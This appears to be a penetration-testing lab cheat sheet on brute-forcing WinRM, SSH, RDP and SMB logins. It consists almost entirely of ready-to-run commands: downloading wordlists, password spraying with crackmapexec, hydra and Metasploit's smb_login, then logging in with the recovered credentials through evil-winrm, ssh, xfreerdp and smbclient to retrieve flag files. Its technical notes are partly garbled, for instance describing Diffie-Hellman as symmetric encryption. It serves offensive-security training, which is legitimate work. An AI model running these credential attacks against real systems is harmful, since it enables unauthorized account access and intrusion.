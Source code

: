 # Network Services

## WinRM

WinRM uses the TCP ports 5985 (HTTP) and 5986 (HTTPS)

CrackMapExec
sudo apt-get -y install crackmapexec

wget -c https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt -O users.txt
wget -c https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -O 10-million-password-list-top-1000.txt

wget -c https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt -O users.list
wget -c https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -O 10-million-password-list-top-1000.list

crackmapexec winrm $TARGET -u users.list -p 10-million-password-list-top-1000.list


### Enumeration
crackmapexec winrm $TARGET

crackmapexec winrm $TARGET -u '' -p ''

crackmapexec winrm $TARGET -u '' -p '' --users


crackmapexec winrm $TARGET -u username.list -p password.list

evil-winrm -i $TARGET -u john -p november

## SSH

This service uses 3 different cryptography operations/methods: 

- symmetric encryption : Diffie-Hellman key exchange method is used
- asymmetric encryption : If private key obtained and not password protected, able to log in to the system without credentials.
- hashing : SSH uses hashing to confirm the authenticity of messages.

hydra -L username.list -P password.list ssh://$TARGET
ssh dennis@$TARGET
rockstar
type flag.txt

crackmapexec ssh $TARGET -u sam -p mut_password.list
hydra -l Kira -P password.list ssh://$TARGET


## RDP

Technically, the RDP is an application layer protocol in the IP stack and can use TCP and UDP for data transmission. 

hydra -L user.list -P password.list rdp://$TARGET
hydra -l sam -P mut_password.list ssh://$TARGET


xfreerdp /v:$TARGET /u:chris /p:789456123

## SMB

hydra -L user.list -P password.list smb://$TARGET

ERROR :
[ERROR] invalid reply from target smb://10.129.42.197:445/

-> outdated version of THC-Hydra that cannot handle SMBv3 replies

msfconsole -q
use auxiliary/scanner/smb/smb_login
options
set user_file user.list
set pass_file password.list
set rhosts 10.129.29.229

[+] 10.129.29.229:445     - 10.129.29.229:445 - Success: '.\cassie:12345678910'


crackmapexec smb $TARGET -u user.list -p password.list --shares

smbclient -U cassie \\\\10.129.29.229\\CASSIE
12345678910

get flag.txt